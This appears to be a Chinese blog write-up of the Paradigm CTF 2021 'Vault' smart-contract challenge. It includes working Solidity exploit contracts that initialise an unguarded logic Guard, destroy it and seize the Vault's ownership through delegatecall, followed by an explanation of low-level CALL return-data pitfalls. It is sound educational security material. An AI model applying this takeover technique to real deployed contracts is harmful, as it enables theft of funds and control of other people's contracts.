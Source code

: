```yaml
---
layout: post
title:  "Paradigm 2021 Vault题解"
date:   2021-07-19 11:07:32 +0800
categories: paradigm
---
```

### 分析
1. Vault引入了eip-1167标准，查阅发现是一个所谓的“Create Clone”，提供了对Proxy合约的克隆，使其指向Logic合约并通过delegatecall完成实际调用，从实际例子出发，这里```function createClone(address target) internal returns (address result)```将创建一个只会delegatecall target的合约并返回其地址
2. 要更改Vault的owner，转了一圈发现一个可疑点

```solidity
function emergencyCall(address target, bytes memory data) public {
   require(checkAccess("emergencyCall"));        
    require(target.delegatecall(data));
}
```
允许任意代码执行，但前提条件是guard开了emergencyCall
3. 思路有两种，替换掉guard为自己的，或给guard加可执行命令，但没有找到能执行这两类操作的入口
4. 仔细观察checkAccess函数，NO_ERROR是0值，而当一个合约为空，任何调用返回值都是0(**错误，低级CALL在没有返回值的情况下不会复制，这里有大坑，下边讲**)，```guard.isAllowed```实际delegatecall了Logic Guard的isAllowed，销毁Logic Guard就能让该函数返回空即0
5. 由于Logic Guard没有执行过initiate函数，可以构造一个恶意的vault绑定到Logic Guard，然后从恶意vault调用Logic Guard的cleanup即可

### 解题

```solidity
pragma solidity ^0.4.16;

contract Guard {
    function initialize(address) external;
    function cleanup() external;
    function owner() external returns(address);
}

contract Vault {
    function emergencyCall(address target, bytes memory data) public;
}

contract BadVault {
    Guard public guard = Guard(0x880081bE260A28f24616fD437545045d94F792cc);
    Vault public vault = Vault(0xf084baFb620A0af4e6F27093592DdC5FC585EbE6);
    address public owner = 0x233333F494990E8BBa9143a1964C3d91597eee81;
    GetOwner public getowner;
    
    function pwn1() public {
        // stage 1
        guard.initialize(address(this));
        require(guard.owner() == owner, "bad owner!!!!");
        guard.cleanup();
    }
    function pwn2() public {
        // stage 2
        getowner = new GetOwner();
        vault.emergencyCall(address(getowner), hex"");
    }
}

contract GetOwner {
    address public owner;
    
    function() external payable {
        owner = 0x233333F494990E8BBa9143a1964C3d91597eee81;
    }
}
```

### 大坑
1. 这里emergencyCall一直爆炸，搜了题解发现合约为空的时候返回值没有被设定，依然保留原有memory，（solidity 版本 0.4.16）
2. 如果是纯手搓汇编，低级CALL的返回值到底有多长是由
    a. ```gas addr argsOffset argsLength retOffset retLength```中的retLength
    b. 被调用合约的返回值长度
联合决定的，测试数据如下

```solidity
pragma solidity 0.5.10;

interface IFetcher {
    function fetch(bytes32) external view returns (bytes32);
}

contract Vulnerable {
    function getNumber(IFetcher f, bytes32 what) external view returns (bytes32) {
        bytes32 selector = f.fetch.selector;

        bytes32 ret;
        bool success;

        assembly {
            let ptr := mload(0x40)     // get free memory pointer
            mstore(0x40, add(ptr, 32)) // allocate 32 bytes
            mstore(ptr, selector)      // write the selector there
            mstore(add(ptr, 0x4), what)// write the args
            success := staticcall(
                gas,                   // forward all gas
                f,                     // target
                ptr,                   // start of call data
                4,                     // call data length
                ptr,                   // where to write return data
                20                     // length of return data
            )
            ret := mload(ptr)          // copy return data into ret
        }

        require(success, "Call failed.");

        return ret;
    }
}

contract F1 {
    function() external {
        assembly {
            mstore(0, 0xbbbb000000000000000000000000000000000000000000000000000000000000)
            return(0, 2)
        }
    }
}

contract F2 {
    function() external {
        assembly {
            mstore(0, 0xcccc000000000000000000000000000000000000000000000000000000000000)
            return(0, 0)
        }
    }
}

contract F3 {
    function() external {
        assembly {
            mstore(0, 0xdddd00000000000000000000000000000000000000000000000000000000dead)
            return(0, 32)
        }
    }
}
```
在这个例子中，ptr一开始指向参数，然后被设定为返回值的memory起始地址，注意我们把retLength设成了20而不是32，

当传入一个空合约地址时，返回值长度为0，没有覆盖任何东西
![b1a5ec7257e5e0e0b1e205a19bfd51c2.png](evernotecid://D741C029-3454-4F77-8374-68A1A648E79F/appyinxiangcom/30777634/ENResource/p448)

当传入F1时，返回值长度为2，覆盖了前2个字节
![0d7bbbc0078f7272099e4b3f3e0915e4.png](evernotecid://D741C029-3454-4F77-8374-68A1A648E79F/appyinxiangcom/30777634/ENResource/p449)

当传入F2时，返回值长度为0，没有覆盖任何东西
![05e8abaad5e40921ecc97f4f87970816.png](evernotecid://D741C029-3454-4F77-8374-68A1A648E79F/appyinxiangcom/30777634/ENResource/p450)

当传入F3时，返回值长度为20，虽然F3试图返回32，但retLength被限定了20，覆盖了前20个字节
![a3719adacd7a71fafbc96c833b2c770a.png](evernotecid://D741C029-3454-4F77-8374-68A1A648E79F/appyinxiangcom/30777634/ENResource/p451)

如果您不需要编写手动优化的程序集，到目前为止最好的方法是利用 Solidity 的高级语法进行合约调用：

```
contract SafeSolidity {
    function getNumber(IFetcher f) external view returns (uint256) {
        return f.fetch();
    }
}
```
从 Solidity 0.4.22 开始，编译器生成字节码，显式检查返回数据的大小，如果返回的数据不足，则revert。如果您将 EOA（用户地址） 传递给SafeSolidity合约，则调用将revert，这里经过测试其逻辑

等价于

```
if(!address(f).code.length) {
    revert(0, 0)
}
success := staticcall(..., f, ...)
if lt(returndatasize, retLength) { // 长了可以短了不行
    revert(0, 0)
}
```

编译器甚至多了一个地址检查（对于没有返回值的函数），如下function经过反编译的结果如图

```
function isEOA(address who) public view returns(bool) {
    IFetcher(who).test();
    return true;
}
```